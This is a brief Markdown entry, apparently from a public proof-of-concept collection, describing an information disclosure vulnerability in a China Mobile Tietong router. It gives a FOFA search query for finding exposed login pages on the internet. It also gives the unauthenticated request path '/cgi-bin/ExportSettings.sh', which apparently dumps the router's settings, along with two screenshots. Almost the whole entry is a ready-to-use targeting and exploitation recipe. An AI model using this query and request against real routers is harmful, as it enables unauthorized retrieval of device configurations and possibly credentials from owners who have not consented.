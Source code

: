 ## 中移铁通禹路由器信息泄露漏洞

## fofa
```
title="互联世界 物联未来-登录"
```

## poc
```
/cgi-bin/ExportSettings.sh
```

![c4aa052bb7fbef5704af30bb0302d411](../../images/33707d5e-c958-4173-a1ad-7830b6db83d0.png)

![56869c622bcf37012cf54b5113d8a663](../../images/d00f4c2a-b7a8-455c-9beb-e3b4f454aa81.png)
